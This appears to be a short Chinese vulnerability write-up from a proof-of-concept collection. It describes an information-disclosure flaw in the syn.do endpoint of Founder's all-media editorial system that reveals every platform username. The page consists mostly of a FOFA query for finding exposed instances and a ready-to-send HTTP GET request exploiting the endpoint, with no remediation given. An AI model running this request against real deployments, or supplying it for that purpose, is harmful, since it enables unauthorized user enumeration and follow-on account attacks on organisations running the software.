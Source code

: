 # 方正全媒体采编系统存在syn.do信息泄露漏洞

方正全媒体采编系统存在syn.do信息泄露漏洞，攻击者可以查看到平台中所有用户的用户名。

## fofa

```yaml
app="FOUNDER-全媒体采编系统"
```

## poc

```java
GET /newsedit/assess/syn.do?type=org HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Length: 185Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```

![image-20240816100116204](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408161001270.png)
